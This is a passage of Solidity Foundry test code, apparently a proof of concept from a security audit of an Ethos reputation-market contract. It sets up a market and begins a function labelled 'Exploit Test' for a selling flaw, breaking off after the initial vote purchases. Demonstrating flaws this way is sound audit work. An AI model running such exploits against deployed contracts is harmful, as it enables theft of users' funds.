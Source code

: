 ```solidity
        string[] memory names = new string[](1);
        contractAddresses[0] = address(proxyEthosProfile);
        names[0] = "ETHOS_PROFILE";
        contractAddressManager.updateContractAddressesForNames(contractAddresses, names);

        // Invite market creator
        (success, ) = address(proxyEthosProfile).call(
            abi.encodeWithSignature("inviteAddress(address)", marketCreator)
        );
        vm.stopPrank();

        // Create profile for market creator
        vm.startPrank(marketCreator);
        (success, ) = address(proxyEthosProfile).call(
            abi.encodeWithSignature("createProfile(uint256)", 1)
        );
        vm.stopPrank();

        // Allow market creation
        vm.startPrank(admin);
        (success, ) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("setUserAllowedToCreateMarket(uint256,bool)", MARKET_ID, true)
        );
        (success, ) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("setProtocolFeeAddress(address)", owner)
        );
        (success, ) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("setExitProtocolFeeBasisPoints(uint256)", 500)
        );
        vm.stopPrank();

        // Create market
        vm.startPrank(marketCreator);
        deal(marketCreator, 0.2 ether);
        (success, ) = address(proxyReputationMarket).call{value: 0.2 ether}(
            abi.encodeWithSignature("createMarket()")
        );
        vm.stopPrank();

        console2.log("Market created with:");
        console2.log("- Liquidity Parameter:", LIQUIDITY_PARAMETER);
        console2.log("- Base Price:", BASE_PRICE);
        console2.log("- Initial Balance:", address(proxyReputationMarket).balance);
    }

    function test_spillageWhileSelling() public {
        //1. Making a balanced market
        console2.log("\n=== Starting Exploit Test ===");
        vm.prank(trustBuyingUser);
        deal(trustBuyingUser, 1 ether);
        (bool success, bytes memory data) = address(proxyReputationMarket).call{value: 1 ether}(
            abi.encodeWithSignature("buyVotes(uint256,bool,uint256,uint256)", MARKET_ID, true, 1000, 0)
        );
        vm.prank(untrustBuyingUser);
        deal(untrustBuyingUser, 1 ether);
        (success, data) = address(proxyReputationMarket).call{value: 1 ether}(
            abi.encodeWithSignature("buyVotes(uint256,bool,uint256,uint256)", MARKET_ID, false, 1000, 0)
        );
        (, data) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("getMarket(uint256)", MARKET_ID)
        );
```